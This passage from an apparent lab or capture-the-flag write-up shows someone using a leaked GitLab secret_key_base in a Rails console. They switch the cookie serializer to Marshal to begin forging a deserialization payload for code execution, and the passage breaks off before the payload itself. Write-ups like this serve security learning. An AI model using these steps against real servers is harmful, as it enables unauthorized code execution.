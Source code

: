 This is the key that is used to sign serialized objects so that a user
can't tamper with them. Because I have it, I can now generate my own
serialized payload and the server will trust it and deserialize it,
which is a path to code execution.

I'll build a payload using the steps from the [HackerOne
report](https://hackerone.com/reports/827052):



    irb(main):002:0> request = ActionDispatch::Request.new(Rails.application.env_config)
    => #<ActionDispatch::Request:0x00007f0e7ecc92f8 @env={"action_dispatch.parameter_filter"=>[/token$/, /password/, /secret/, /key$/, /^body$/, /^description$/, /^note$/, /^text$/, /^title$/, :certificate, :encrypted_key, :hook, :import_url, :otp_attempt, :sentry_dsn, :trace, :variables, :content, :sharedSecret, /^((?-mix:client_secret|code|authentication_token|access_token|refresh_token))$/], "action_dispatch.redirect_filter"=>[], "action_dispatch.secret_key_base"=>"3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", "action_dispatch.show_exceptions"=>true, "action_dispatch.show_detailed_exceptions"=>false, "action_dispatch.logger"=>#<ActiveSupport::Logger:0x00007f0e843f29f8 @level=1, @progname=nil, @default_formatter=#<Logger::Formatter:0x00007f0e84342300 @datetime_format=nil>, @formatter=#<ActiveSupport::Logger::SimpleFormatter:0x00007f0e843f29d0 @datetime_format=nil, @thread_key="activesupport_tagged_logging_tags:69850162500840">, @logdev=#<Logger::LogDevice:0x00007f0e843422b0 @shift_period_suffix=nil, @shift_size=nil, @shift_age=nil, @filename=nil, @dev=#<File:/opt/gitlab/embedded/service/gitlab-rails/log/production.log>, @mon_mutex=#<Thread::Mutex:0x00007f0e84342238>, @mon_mutex_owner_object_id=69850162139480, @mon_owner=nil, @mon_count=0>>, "action_dispatch.backtrace_cleaner"=>#<Rails::BacktraceCleaner:0x00007f0e8f9a0548 @silencers=[#<Proc:0x00007f0e8bff90b0@/opt/gitlab/embedded/service/gitlab-rails/config/initializers/backtrace_silencers.rb:8>], @filters=[#<Proc:0x00007f0e8f9b5d58@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/activesupport-6.0.2/lib/active_support/backtrace_cleaner.rb:97>, #<Proc:0x00007f0e8f9b5880@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:16>, #<Proc:0x00007f0e8f9b56c8@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:17>, #<Proc:0x00007f0e8f9b5650@/opt/gitlab/embedded/lib/ruby/gems/2.6.0/gems/railties-6.0.2/lib/rails/backtrace_cleaner.rb:18>], @root="/opt/gitlab/embedded/service/gitlab-rails/">, "action_dispatch.key_generator"=>#<ActiveSupport::CachingKeyGenerator:0x00007f0e7fddebd8 @key_generator=#<ActiveSupport::KeyGenerator:0x00007f0e7fddec00 @secret="3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3", @iterations=1000>, @cache_keys=#<Concurrent::Map:0x00007f0e7fddebb0 entries=1 default_proc=nil>>, "action_dispatch.http_auth_salt"=>"http authentication", "action_dispatch.signed_cookie_salt"=>"signed cookie", "action_dispatch.encrypted_cookie_salt"=>"encrypted cookie", "action_dispatch.encrypted_signed_cookie_salt"=>"signed encrypted cookie", "action_dispatch.authenticated_encrypted_cookie_salt"=>"authenticated encrypted cookie", "action_dispatch.use_authenticated_cookie_encryption"=>false, "action_dispatch.encrypted_cookie_cipher"=>nil, "action_dispatch.signed_cookie_digest"=>nil, "action_dispatch.cookies_serializer"=>:hybrid, "action_dispatch.cookies_digest"=>nil, "action_dispatch.cookies_rotations"=>#<ActiveSupport::Messages::RotationConfiguration:0x00007f0e98bedf18 @signed=[], @encrypted=[]>, "action_dispatch.use_cookies_with_metadata"=>false, "action_dispatch.content_security_policy"=>nil, "action_dispatch.content_security_policy_report_only"=>false, "action_dispatch.content_security_policy_nonce_generator"=>nil, "action_dispatch.content_security_policy_nonce_directives"=>nil}, @filtered_parameters=nil, @filtered_env=nil, @filtered_path=nil, @protocol=nil, @port=nil, @method=nil, @request_method=nil, @remote_ip=nil, @original_fullpath=nil, @fullpath=nil, @ip=nil>
    irb(main):003:0> request.env["action_dispatch.cookies_serializer"] = :marshal
    => :marshal
    irb(main):004:0> cookies = request.cookie_jar